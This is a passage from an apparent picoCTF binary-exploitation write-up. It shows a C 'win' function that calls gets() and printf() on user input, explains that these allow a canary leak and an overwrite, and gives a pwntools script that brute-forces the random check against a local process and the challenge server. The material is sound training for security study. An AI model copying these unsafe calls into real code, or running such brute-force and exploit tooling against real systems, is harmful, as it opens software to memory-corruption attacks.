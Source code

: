 ```c
		res = do_stuff();
		if (res) {
			win();
		}
	}
	
	return 0;
}
```
With all of this code, it collects a random number, and if the number is correct, then it will call \"win\".
## The \"win\" Function
```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	gets(winner);
	printf("Congrats: ");
	printf(winner);
	printf("\n\n");
}
```
This is the most important function.
It has the printf vuln which allows the attacker to bypass the canary, and it has the gets which allows the adjacent overwrite.
To get to this, the random check needs to get solved.
# Discovering the Random Value
ASLR is disabled, and as a result the memory address won't change.
With that in mind it's time to discover the value.
## Code to Bruteforce the Random Value
```python
def beat_rand(io):
    guess = -4096
    response = ""
    io.recvuntil("?")
    io.sendline(str(guess))
    io.recvline()
    response = io.recvline()
    guess += 1
    while "Nope" in response.decode() and guess < 4097:
        io.recvuntil("?")
        io.sendline(str(guess))
        io.recvline()
        response = io.recvline()
        print(f"used: {guess}", end="\r", flush=True)
        guess += 1
    return guess+1

def beat_rand_local():
    with pwn.process(binary) as io:
        return beat_rand(io)

def beat_rand_remote():
    with pwn.remote("jupiter.challenges.picoctf.org", 43578) as io:
        beat_rand(io)

def main():
    rand_local = beat_rand_local()
    print(f"The random value is {rand_local}")
    rand_remote = beat_rand_remote()
```